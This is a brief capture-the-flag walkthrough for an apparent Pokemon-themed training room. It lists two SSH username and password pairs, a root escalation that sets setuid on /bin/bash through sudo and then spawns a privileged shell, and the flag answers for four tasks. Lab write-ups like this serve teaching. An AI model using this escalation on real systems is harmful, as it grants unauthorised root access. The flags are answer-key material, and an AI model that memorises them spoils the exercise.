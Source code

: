 # Pokemon-SSH credential exposure&ALL Privilege escalation

```
export IP=10.10.226.119
```

# Material needed

1. SSH cresential

```
pokemon:hack_the_pokemon
```

2. SSH credential 2

```
ash:pikapika
```

3. Privilege escalation

```
ALL

sudo /bin/chmod 6777 /bin/bash
/bin/bash -p
```

# Tasks

1. Find the Grass-Type Pokemon 

```
PoKeMoN{Bulbasaur}
```

2. Find the Water-Type Pokemon

```
ROT14

Squirtle_SqUaD{Squirtle}
```

3. Find the Fire-Type Pokemon

```
locate fire-type.txt

P0k3m0n{Charmander} 
```

4. Who is Root's Favorite Pokemon?

```
Pikachu!
```